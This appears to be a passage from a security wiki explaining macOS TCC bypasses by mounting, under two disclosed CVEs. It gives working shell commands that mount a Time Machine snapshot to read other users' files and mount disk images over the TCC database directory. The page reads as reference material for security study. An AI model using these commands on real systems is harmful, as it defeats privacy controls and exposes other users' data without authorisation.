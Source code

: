 ## By mounting

### CVE-2020-9771 - mount\_apfs TCC bypass and privilege escalation

**Any user** (even unprivileged ones) can create and mount a time machine snapshot an **access ALL the files** of that snapshot.\
The **only privileged** needed is for the application used (like `Terminal`) to have **Full Disk Access** (FDA) access (`kTCCServiceSystemPolicyAllfiles`) which need to be granted by an admin.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}

A more detailed explanation can be [**found in the original report**](https://theevilbit.github.io/posts/cve\_2020\_9771/)**.**

### CVE-2021-1784 & CVE-2021-30808 - Mount over TCC file

Even if TCC DB file is protected, It was possible to **mount over the directory** a new TCC.db file:

{% code overflow="wrap" %}
```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```
{% endcode %}
